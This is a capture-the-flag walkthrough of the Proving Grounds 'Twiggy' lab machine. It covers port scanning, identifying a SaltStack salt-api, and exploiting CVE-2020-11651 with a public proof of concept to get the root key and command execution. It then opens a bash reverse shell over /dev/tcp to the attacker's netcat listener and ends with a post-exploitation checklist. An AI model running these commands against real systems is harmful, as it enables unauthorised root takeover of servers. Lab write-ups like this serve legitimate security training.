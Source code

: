 ```yaml
---
layout: default
title: Twiggy
parent: Proving Grounds Practice - Linux
nav_order: 5
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.232.62

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (application/json).
|_http-server-header: nginx/1.16.1

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/twiggy/index.png)

![admin](../../../assets/images/ctfs/proving_grounds/twiggy/admin.png)

## 8000 | HTTP

![8000](../../../assets/images/ctfs/proving_grounds/twiggy/8000.png)

![8000_raw](../../../assets/images/ctfs/proving_grounds/twiggy/8000_raw.png)

Curl the endpoint and receive _X-Upstrea: salt-api/3000-1_ in the response header.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ curl -v http://192.168.232.62:8000
*   Trying 192.168.232.62:8000...
* Connected to 192.168.232.62 (192.168.232.62) port 8000 (#0)
> GET / HTTP/1.1
> Host: 192.168.232.62:8000
> User-Agent: curl/7.88.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.16.1
< Date: Fri, 24 Nov 2023 05:11:04 GMT
< Content-Type: application/json
< Content-Length: 146
< Connection: keep-alive
< Access-Control-Expose-Headers: GET, POST
< Vary: Accept-Encoding
< Allow: GET, HEAD, POST
< Access-Control-Allow-Credentials: true
< Access-Control-Allow-Origin: *
< X-Upstream: salt-api/3000-1
<
* Connection #0 to host 192.168.232.62 left intact
{"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}

```

Searching for _salt-api_ returns results for _SaltStack_ and an exploit for Arbitrary Command Execution.

# Exploitation

---

I followed the writeup here:

[SaltStack Salt REST API Exploit Writeup](https://vk9-sec.com/saltstack-salt-rest-api-arbitrary-command-execution-cve-2020-11651-cve-2020-11652/)

Being by downloading the exploit and installing the Python _salt_ library.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ git clone https://github.com/jasperla/CVE-2020-11651-poc.git
Cloning into 'CVE-2020-11651-poc'...
remote: Enumerating objects: 30, done.
remote: Counting objects: 100% (30/30), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 30 (delta 12), reused 26 (delta 10), pack-reused 0
Receiving objects: 100% (30/30), 8.61 KiB | 1.43 MiB/s, done.
Resolving deltas: 100% (12/12), done.

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ ls
CVE-2020-11651-poc

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ sudo pip3 install salt
Collecting salt
  Downloading salt-3006.4.tar.gz (20.5 MB)

```

Now we can run the initial exploit to get the _root key_ and prove the endpoint is vulnerable.

```bash

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy/CVE-2020-11651-poc]
└─$ python3 exploit.py --master 192.168.232.62
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/usr/local/lib/python3.11/dist-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.232.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=

```

Now we can proceed to testing RCE by sending a ping command to the target.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy/CVE-2020-11651-poc]
└─$ python3 exploit.py --master 192.168.232.62 --exec "ping -c 4 192.168.45.217"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/usr/local/lib/python3.11/dist-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.232.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to execute ping -c 4 192.168.45.217 on 192.168.232.62
[+] Successfully scheduled job: 20231125025120243747


# Run tcpdump on tun0 interface to see if we receive ICMP traffic from the target
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:50:53.213696 IP 192.168.45.217.58856 > 192.168.232.62.4506: Flags [S], seq 3679989939, win 64240, opt
ions [mss 1460,sackOK,TS val 872788431 ecr 0,nop,wscale 7], length 0
21:50:53.270461 IP 192.168.232.62.4506 > 192.168.45.217.58856: Flags [S.], seq 2051046149, ack 367998994
0, win 28960, options [mss 1361,sackOK,TS val 33013 ecr 872788431,nop,wscale 7], length 0
21:50:53.270487 IP 192.168.45.217.58856 > 192.168.232.62.4506: Flags [.], ack 1, win 502, options [nop,n
op,TS val 872788488 ecr 33013], length 0
21:50:53.270650 IP 192.168.45.217.58856 > 192.168.232.62.4506: Flags [P.], seq 1:11, ack 1, win 502, opt
ions [nop,nop,TS val 872788488 ecr 33013], length 10
21:50:53.327522 IP 192.168.232.62.4506 > 192.168.45.217.58856: Flags [.], ack 11, win 227, options [nop,
nop,TS val 33068 ecr 872788488], length 0
21:50:53.327535 IP 192.168.232.62.4506 > 192.168.45.217.58856: Flags [.], ack 11, win 227, options [nop,
nop,TS val 33068 ecr 872788488], length 0

```

Finally we can run the exploit to send a reverse shell back to our attack machine on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy/CVE-2020-11651-poc]
└─$ python3 exploit.py --master 192.168.232.62 --exec "bash -i >& /dev/tcp/192.168.45.217/4505 0>&1"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/usr/local/lib/python3.11/dist-packages/salt/transport/client.py:27: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.232.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to execute bash -i >& /dev/tcp/192.168.45.217/4505 0>&1 on 192.168.232.62
[+] Successfully scheduled job: 20231125025438818428

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/twiggy]
└─$ nc -nlvp 4505
listening on [any] 4505 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.62] 59028
bash: no job control in this shell
[root@twiggy root]# whoami
whoami
root

```

# Post-Exploitation

---

- [ ] Upgrade to TTY Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

- [ ] sudo -l
- [ ] enumerate users
- [ ] SUID/GUID

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```

- [ ] enumerate process running with root privileges

```bash
ps -aux | grep -i 'root'
```

- [ ] enumerate network services

```bash
netstat -antup (ss -tunlp)
```

- [ ] check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

- [ ] test discovered credentials against all users
- [ ] attempt hydra ssh password crack for discovered users
- [ ] check _/opt_, _/tmp_, _/var/tmp_, _/etc_, and _/dev/shm_
- [ ] Check if /etc/passwd is writeable
